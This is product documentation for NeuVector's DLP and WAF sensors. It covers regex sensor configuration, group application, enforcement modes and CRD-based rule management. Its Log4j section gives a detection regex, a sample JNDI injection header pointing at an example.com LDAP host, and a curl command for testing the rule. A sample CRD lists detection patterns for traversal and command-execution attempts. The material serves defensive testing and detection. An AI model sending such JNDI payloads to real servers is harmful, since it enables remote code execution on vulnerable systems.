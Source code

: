 = DLP & WAF Sensors
:page-opendocs-origin: /05.policy/09.dlp/09.dlp.md
:page-opendocs-slug:  /policy/dlp

== Data Loss Prevention (DLP) and Web Application Firewall (WAF)

DLP and WAF uses the Deep Packet Inspection (DPI) of NeuVector to inspect the network payloads of connections for sensitive data violations. NeuVector uses a regular expression (regex) based engine to perform packet filtering functions. Extreme care should be taken when applying sensors to container traffic, as the filtering function incurs additional system overhead and can impact performance of the host.

DLP and WAF filtering are applied differently depending on the group(s) to which they are applied. In general, WAF filtering is applied to inbound and outbound connections except for internal traffic where only inbound filtering is applied. DLP filtering applies to inbound and outbound connections from a 'security domain', but not any internal connections within a security domain. See the detailed descriptions below.

Configuring DLP or WAF is a two step process:

. Define and test the sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet.
. Apply the desired sensor to a Group, in the Policy -> Groups screen.

=== WAF Sensors

WAF sensors represent inspection of network traffic to/from a pod/container. These sensors can be applied to any applicable group, even custom groups (e.g. namespace groups). Incoming traffic to ALL containers within the group will be inspected for WAF rule detection. In addition, any outbound (egress) connections external to the cluster will be inspected.

This means that, while this feature is named WAF, it is useful and applicable to any network traffic, not only web application traffic, and therefore provides broader protections than simple WAFs. For example, API security can be enforced on outbound connections to an external api service, allowing only GET requests and blocking POSTs.

Also note that, while similar to DLP, the inspection is for incoming traffic to EVERY pod/container within the group, while DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers).

image:waf_sensors.png[waf]

=== DLP Sensors

DLP Sensors are the patterns that are used to inspect traffic. Built in sensors such as credit card and U.S. social security have predefined regular expressions. You can add custom sensors by defining regex patterns to be used in that sensor. Note that, while similar to WAF, DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers). WAF inspection is for incoming traffic only to EVERY pod/container within the group.

image:sensors.png[dlp]

=== Configuring DLP and WAF sensors

The configuration of DLP and WAF sensors is similar. Create a sensor Name and any comment, then select the sensor to Add or Edit the rules for that sensor. Key fields include:

* Have/Not Have. Determines if the match requires the pattern to be found (Have) in order to take the action (e.g. Deny), or only if the pattern does not exist (Not Have) should the action be taken. It is recommended that the "Not Have" operator be combined in the rule with a pattern using the "Have" operator because a single pattern with "Not Have" operator will not be effective.
* Pattern. This is the regular expression used to determine a match. You can test your regex against sample data to ensure correct Have/Not Have results.
* Context. Where to look for the pattern match. Choose packet for the broadest inspection of the entire network connection, or narrow the inspection to the URL, header, or body only.

image:5_sensor_config.png[waf]

Each DLP/WAF rule supports multiple patterns (max 16 patterns are allowed per rule). Multiple patterns as well as setting the rule context can also help reduce false positives.

Example of a DLP rule with a Have/Not Have pattern:
Have:

[,shell]
----
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b
----

This produces a false positive match for "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":

[,shell]
----
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!
----

Adding a Not Have pattern removes the false positive:

[,shell]
----
istio\_(\w){5}
----

*_Sensors must be applied to a Group to become effective._*

=== Applying DLP/WAF Sensors to Container Groups

To activate a DLP or WAF sensor, go to Policy -> Groups to select the group desired. Enable DLP/WAF for the Group and add the sensor(s).

It is recommended that DLP sensors be applied to the boundary of a security zone, defined by a Group, to minimize the impact of DLP inspection. If needed, define a Custom Group that represents such a security zone.  For example, if the Group selected is the reserved group 'containers', and DLP sensors added to the group, only traffic in or out of the cluster and not between all containers will be inspected. Or if it is a custom group defined as 'namespace=demo' then only traffic in or out of the namespace demo will be inspected, and not any inter-container traffic within the namespace.

It is recommended that WAF sensors be applied only to Groups where incoming (e.g. ingress) connections are expected, unless the sensor(s) apply to specific internal applications (expecting east-west traffic).

image:apply_dlp_group.png[group]

==== DLP/WAF Behavior Summary

* DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
* Any traffic passing in and out of a DLP group is scanned for pattern matches.
* Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
* Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
* Multiple alerts are generated for a single packet if it matches multiple rules.
* For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
* Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
* PCRE is used for pattern matching.
* Hyper scan library is used for efficient, scalable and high-performance pattern matching.

=== DLP/WAF Actions in Discover, Monitor, Protect Modes

When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:

* Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

=== Log4j Detection WAF Pattern

The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.

[,shell]
----
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
----

Also note that there are ways that attackers could bypass detection by such rules.

=== Testing the Log4j WAF Detection

In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:

[,shell]
----
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
----

Using curl to POST data to server(container) can help to test WAF rule:

[,shell]
----
curl -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
----

=== WAF Setup and Testing

The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

xref:attachment$waf_test.zip[Download WAF test script]

=== Sample Alerts

==== DLP match in Discover or Monitor Mode

image:dlp4_alert_discover.png[DLPAlert]

==== DLP match in Protect Mode

image:dlp_5_protect.png[DLPProtect]

==== DLP Security Event Notification for Credit Card Match

image:dlp6_credit.png[DLPCredit]

[NOTE]
====
The automated packet capture will contain the actual packet including the credit card number matched. This is also true of any DLP packet capture for any sensitive data.
====

== Managing WAF Rules Using Import/Export or CRDs

It is possible to import or export WAF rules from the WAF screen. This can be useful to be able to propagate rules to other clusters, make a backup, or prepare them for applying as a CRD.

In order to create WAF sensors or apply a WAF sensor to a group using CRDs, make sure the appropriate NVWafSecurityRule cluster role binding is created.

Sample WAF sensor CRD

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvWafSecurityRule
  metadata:
    name: sensor.execution
  spec:
    sensor:
      comment: arbitrary command execution attempt
      name: sensor.execution
      rules:
      - name: Alchemy
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/NUL\/.*\.\.\/\.\.\/
      - name: Log4j
        patterns:
        - context: header
          key: pattern
          op: regex
          value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
      - name: formmail
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/formmail
        - context: packet
          key: pattern
          op: regex
          value: \x0a
      - name: CCBill
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whereami\.cgi?.*g=
      - name: DotNetNuke
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Install\/InstallWizard.aspx.*executeinstall
      - name: HNAP
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/tmUnblock.cgi
        - context: header
          key: pattern
          op: regex
          value: 'Authorization: Basic\s*YWRtaW46'
      - name: Magento
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Adminhtml_.*forwarded=
      - name: b2
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
      - name: bat
        patterns:
        - context: url
          key: pattern
          op: regex
          value: x2ebat\x22.*?\x26
      - name: eshop.pl
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/eshop\.pl?.*seite=\x3b
      - name: whois_raw.cgi
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whois_raw\.cgi?
        - context: packet
          key: pattern
          op: regex
          value: \x0a
kind: List
metadata: null
----
====

Sample CRD to apply a WAF sensor to a Group

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvSecurityRule
  metadata:
    name: demo-group
    namespace: demo
  spec:
    egress: []
    file: []
    ingress: []
    process: []
    process_profile:
      baseline: default
    target:
      policymode: N/A
      selector:
        comment: ""
        criteria:
        - key: domain
          op: =
          value: demo
        - key: service
          op: =
          value: nginx-pod.demo
        - key: service
          op: =
          value: node-pod.demo
        name: demo-group
        original_name: ""
    waf:
      settings:
      - action: deny
        name: sensor.cross
      - action: deny
        name: sensor.execution
      - action: deny
        name: sensor.injection
      - action: deny
        name: sensor.traversal
      - action: deny
        name: wafsensor-1
      status: true
kind: List
metadata: null
----
====

See the xref:usingcrd.adoc[CRD section] for more details on working with CRDs.

== DLP/WAF Response Rules

Response rules based on DLP/WAF security events can be created in Policy ->Response Rules. Start type DLP or WAF and the dropdown will list all sensors and patterns available to create rules.

image:dlp7_response.png[DLPResponse]
